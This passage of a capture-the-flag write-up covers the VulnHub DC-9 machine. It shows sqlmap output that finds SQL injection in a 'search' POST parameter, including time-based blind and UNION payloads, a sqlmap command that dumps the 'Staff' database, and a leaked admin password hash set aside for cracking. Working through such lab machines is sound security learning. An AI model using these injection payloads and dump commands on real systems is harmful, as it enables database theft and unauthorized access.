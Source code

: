 ```code
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[04:00:05] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[04:00:05] [INFO] POST parameter 'search' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 69 HTTP(s) requests:
---
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=everything' AND (SELECT 1362 FROM (SELECT(SLEEP(5)))zaWR) AND 'uSLv'='uSLv

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: search=everything' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71626a7871,0x4545774e6953647966686d62646d686e6c4b7a417a75626b6a566753615554586454517076484e4f,0x7162767871),NULL,NULL-- -
---
[04:00:05] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:00:05] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] Staff
[*] users

[04:00:05] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.43.182'

[*] ending @ 04:00:05 /2020-08-27/

```
From the output, we know that mysql/mariadb is used in this web app and there are 3 available database in this web app which are `information_schema`, `Staff`, and `users`. 

- dump Staff db
Dump Staff db with this command `sqlmap -r sqlmap/sql.txt -D Staff --dump | tee sqlmap/staff-db-dump.txt ` 

From here, we found something we can use for initial foothold later. This password hash can be crack using local tool or i prefer to use Crackstation. 

```code
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```



![95ff137d327702c07700cb771e3b7f49.png](/images/vulnhub/dc-9/3b6634d9624747a6b4e503eae7b1d6a8.png)
